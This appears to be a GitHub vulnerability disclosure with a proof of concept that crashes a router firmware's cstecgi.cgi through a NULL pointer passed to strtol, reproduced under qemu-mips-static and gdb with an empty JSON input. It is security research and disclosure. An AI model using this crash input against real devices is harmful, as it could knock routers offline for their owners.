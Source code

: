 ## poc

### content_poc.sh
```bash
#!/bin/bash
chroot  ./  ./qemu-mips-static\
	-g  123  -L  ./lib  \
	./web_cste/cgi-bin/cstecgi.cgi  <  ./content_poc.json
```

### content_poc.json
```json
{
	
}
```

## Reproduce
```bash
./content_poc.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

![enter image description here](https://i.mji.rip/2025/08/08/fd9383438353f1c37af25f915b56a5c3.png)

Set a breakpoint before the `strtol` call. The parameter `pcVar4` (register `a0`) will show as NULL.
![enter image description here](https://i.mji.rip/2025/08/08/e1e263f2236bc954753e41eab26ce018.png)

Tracing execution into `strtol` confirms the NULL pointer is dereferenced, causing the crash.
![enter image description here](https://i.mji.rip/2025/08/08/02f1b1ead85087e3c9d4c2622471822d.png)


